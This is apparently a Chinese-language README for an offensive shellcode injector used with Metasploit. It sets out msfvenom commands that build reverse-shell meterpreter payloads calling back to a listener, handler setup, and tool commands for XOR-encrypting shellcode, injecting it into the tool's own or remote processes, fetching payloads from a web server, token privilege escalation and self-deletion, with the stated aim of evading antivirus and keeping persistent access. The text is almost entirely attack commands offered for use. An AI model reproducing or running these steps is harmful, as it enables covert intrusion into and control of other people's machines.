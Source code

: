 # Metasploit 本地ShellCode注入工具

<br>

一款本地通用ShellCode后门注入器，该工具主要用于在后渗透阶段使用，可将后门直接注入到特定进程内存中而不会在磁盘中留下任何痕迹，注入成功后Metasploit即可获取控制权，只要对端不关机则权限会一直维持，由于内存注入无对应磁盘文件，所以也不会触发杀软报毒。

首先需要通过`Metasploit`工具生成一个有效载荷，如下是32位与64位载荷生成命令。
```BASH
32位载荷生成
[root@lyshark ~]# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c

64位载荷生成
[root@lyshark ~]# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c
```
后台侦听器的配置也分为`32`位与`6`4位，使用工具时需要与载荷的位数相对应。
```BASH
32位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
msf6 exploit(multi/handler) > exploit

64位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
msf6 exploit(multi/handler) > exploit
```

<br>

 - 列举出目前系统中支持注入的进程
```C
InjectShellCode32.exe --show
```

 - 尝试使用令牌提权
```C
InjectShellCode32.exe --promote
```

 - 删除自身程序
```
InjectShellCode32.exe --delself
```


**将攻击载荷格式化为一行:** 将Metasploit生成的ShellCode载荷保存为文件，然后使用该命令直接将其格式化为一行。

在保存ShellCode的时候，请不要保存头部的定义部分，只保存以下代码即可。
```
C:\Users\admin\Desktop> sc32.exe Format --path d://shellcode.txt

fce88f0000006089e531d2648b52308b520c8b52148b722831ff0fb74a2631c0ac3c601d630000687773325f54684......
```

**将攻击载荷格式化并写出:** 这个格式化函数作用与上方相同，只不过可以直接写出到文件中，在你只有一个cmd权限时，可以使用。
```
C:\Users\admin\Desktop> sc32.exe FormatFile --path d://shellcode.txt --output d://format.txt

[+] 已储存 => d://format.txt
```

**加密/解密攻击载荷:** 如上我们可以将shellcode压缩为一行，然后可以调用xor命令，对这段shellcode进行加密处理。
```
C:\Users\admin\Desktop> sc32.exe Xor --path d://format.txt --passwd lyshark

% &{{%ssssssus{z&vpr'quw{!vqps{!vqs {!vqrw{!tqq{pr%%s%!tw"qupr s" p urt sqq qs r %s'
```

**压缩载荷并转字节数组:** 将一段已经压缩过的shellcode代码转换为字节数组格式，这个格式可以直接使用。
```
C:\Users\admin\Desktop> sc32.exe Xchg --input d://format.txt --output d://array.txt

[+] 字节已转为双字节
[*] 已写出ShellCode列表 => d://array.txt
```

**异或加密/解密字节数组:** 将字节数组整体加密或解密为字节数组，无需在程序代码中转换，使用更方便。
```
C:\Users\admin\Desktop>sc32.exe XorArray --path d://array.txt --passwd lyshark
```

**将攻击载荷注入自身反弹:** 将一段压缩过的shellcode注入到自身进程并反弹权限。
```
C:\Users\admin\Desktop> sc32.exe InjectSelfShell --shellcode fce88f0000006031d2648b52308b520c***
```

**注入字节数组到自身进程:** 由于字节数组无法直接命令行方式传递，所以只能在文件中获取并压缩解码反弹。
```
C:\Users\admin\Desktop> sc32.exe InjectArrayByte --path d://shellcode.txt
[+] 解码地址: 19db64
```

**从文件中读入并注入:** 从文件中读入一段已经压缩过的shellcode并执行反弹。
```
C:\Users\admin\Desktop> sc32.exe FileInjectShell --path d://format.txt
```

**注入攻击载荷到远程进程:** 该功能主要用于将代码注入到远程进程中，此处参数已经规范化。
```
C:\Users\admin\Desktop> sc32.exe InjectProcShell --pid 17948 --shellcode fce88f0000****
```

**从远程加载载荷并注入:** 从远程Web服务器上获取到需要注入的代码，远程服务器保存一行格式字符串即可。
```
C:\Users\admin\Desktop> sc32.exe InjectWebShell --address 127.0.0.1 --payload shellcode.raw
```

**直接运行加密的攻击载荷:** 加密模块可以直接运行被加密过后的shellcode并反弹，注入时需要传递解码密码。
```
C:\Users\admin\Desktop> sc32.exe EncodeInFile --path d://encode.txt --passwd lyshark
```

**加密注入远程进程反弹:** 直接注入加密后的代码到远程进程中，实现方式如上。
```
C:\Users\admin\Desktop> sc32.exe EncodePidInFile --pid 17480 --path d://encode.txt --passwd lyshark
```
